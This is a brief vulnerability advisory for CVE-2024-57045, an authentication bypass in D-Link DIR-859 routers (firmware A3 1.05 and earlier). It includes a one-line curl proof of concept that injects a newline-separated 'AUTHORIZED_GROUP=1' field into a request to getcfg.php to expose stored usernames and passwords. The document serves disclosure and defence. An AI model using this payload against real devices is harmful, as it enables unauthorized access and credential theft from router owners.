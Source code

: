 #  ACL bypass Vulnerability in D-Link DIR-859

## 0x01 Vulnerability description

A  vulnerability in the D-Link DIR-859 router permits unauthorized individuals to bypass the authentication. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page.

```
curl http://target/getcfg.php -d "SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1"
```

## 0x02 Affected version

``` 
D-Link DIR-859
(Firmware version A3 1.05 and earlier)
```

## 0x03 PoC verification

When attempting to `curl http://target/getcfg.php -d "SERVICES=DEVICE.ACCOUNT" `without the specific string "0aAUTHORIZED_GROUP=1", the response return "Not authorized".

![image-20241210162753297](D:\edu\master\repo\CVE_Requests\D-Link\DIR-859\assets\image-20241210162753297.png)

However, by incorporating the string "0aAUTHORIZED_GROUP=1" into the command, the authentication check is successfully bypassed. This manipulation discloses entry information, including usernames and passwords, thereby granting an attacker the ability to perform further unauthorized operations.

![image-20241210162859904](D:\edu\master\repo\CVE_Requests\D-Link\DIR-859\assets\image-20241210162859904.png)

## 0x04 Acknowledgement

Shuanunio

## 0X05 CVE ID

CVE-2024-57045